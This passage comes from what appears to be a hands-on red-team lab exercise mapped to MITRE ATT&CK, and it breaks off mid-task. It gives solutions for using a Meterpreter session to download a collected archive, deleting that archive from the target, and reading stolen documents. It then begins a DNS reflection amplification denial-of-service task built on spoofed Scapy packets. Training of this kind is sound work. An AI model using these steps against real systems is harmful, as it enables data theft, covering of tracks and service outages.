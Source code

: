 Use Meterpreter to download the collected data. 

<details open>
<summary>
Solution
</summary>

* Use Meterpreter `download` command to transfer the archive to the jumphost: `download data.tar`
* Remove the archive from the target: `rm data.tar`.

</details>

Finally, open the document and find out the estimated budget for procurement of laptops.

<details open>
<summary>
Solution
</summary>

* Transfer the archive from jumphost to your attacker with GUI.
* Extract the archive and open Word documents. You may need to install additional software at `attacker`, such as docx2txt or LibreOffice.
* File `Meeting Minutes - Oct 30, 2024.docx` contains "Preliminary budget estimate".

</details>

Do **not** exit Meterpreter session, we will use it in the further task.

### Task: Network Denial of Service: Reflection Amplification

[T1498.002](https://attack.mitre.org/techniques/T1498/002/)

Abuse a DNS server running in the network of the target organization for a reflection attack of another target.

The DNS server runs at IP 10.0.128.3. The target has IP 10.0.33.50.

First, prepare the target. Run a simple UDP listerer there:
* Connect directly to target using `podman compose exec target bash`.
* Listen at UDP port 53: `nc -u -l -p 53`.

Then switch to `attacker`.

Check you can send packets from `attacker` to `target`: 
* run `echo test | nc -u 10.0.33.50 53` at `attacker`,
* you should see `test` at `target`,
* exit `nc` at `attacker` (<kbd>Ctrl</kbd>+<kbd>C</kbd>),
* do exit and start again `nc` at `target`.

Use [Scapy](https://scapy.net), an interactive packet manipulation library written in Python, to send a DNS request with forged source address to run a reflection attack targeting 10.0.33.50.

<details open>
<summary>
Solution
</summary>
